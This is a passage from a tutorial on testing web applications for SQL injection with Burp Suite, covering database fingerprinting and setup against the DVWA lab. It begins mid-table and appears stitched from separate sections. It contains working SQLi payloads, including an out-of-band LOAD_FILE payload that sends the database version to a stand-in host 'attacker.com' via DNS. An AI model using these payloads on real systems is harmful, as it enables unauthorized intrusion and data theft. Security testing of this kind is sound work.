          <td><strong>SQL Server</strong></td>
         <td><code>id=1' AND SUBSTRING('ABC',1,1)='A'-- -</code></td>
         <td>Returns <code>ABC</code> data</td>
      </tr>
   </tbody>
</table>

**Burp Tip:** Compare responses between valid (`'A'`) and invalid (`'X'`) payloads.  

---

## **5. Using Burp Collaborator for Out-of-Band (OOB) Testing**  
If the app filters errors, use **DNS exfiltration** to leak DB type:  
```sql
1' UNION SELECT LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\share\\'))-- -
```
- **MySQL**: `10.5.8-MariaDB.attacker.com` (DNS callback)  
- **Oracle**: `UTL_HTTP` or `UTL_INADDR` for OOB.  

**Burp Steps:**  
1. **Generate Collaborator payload** (`Burp > Burp Collaborator Client`).  
2. **Insert into SQLi payload** (e.g., `@@version` + Collaborator domain).  
3. **Monitor for DNS callbacks**.  

---

### **Key Burp Suite Features for DB Fingerprinting**  
✔ **Repeater**: Test payloads manually.  
✔ **Intruder**: Automate delay/error detection.  
✔ **Collaborator**: Bypass filters via OOB.  
✔ **Logger**: Track all responses for anomalies.  

**Mapped OWASP ASVS Level**: **ASVS 3.1 (Input Validation)**

### **SQL Injection Testing with Burp Suite**  

This section covers **manual and automated techniques** to test for SQL injection vulnerabilities using **Burp Suite Professional/Community**.  

---

## **1. Setup & Configuration**  
**Prerequisites:**  
- Burp Suite installed (Proxy, Repeater, Intruder, Scanner).  
- Target web application (DVWA).  
- Browser configured to use Burp as proxy (`127.0.0.1:8080`).  

**Steps:**  
1. **Start Burp Proxy** (`Proxy > Intercept ON`).  
2. **Browse the target application** (login forms, search fields, URL parameters).  
3. **Capture requests** in Proxy history (`Proxy > HTTP history`).  

---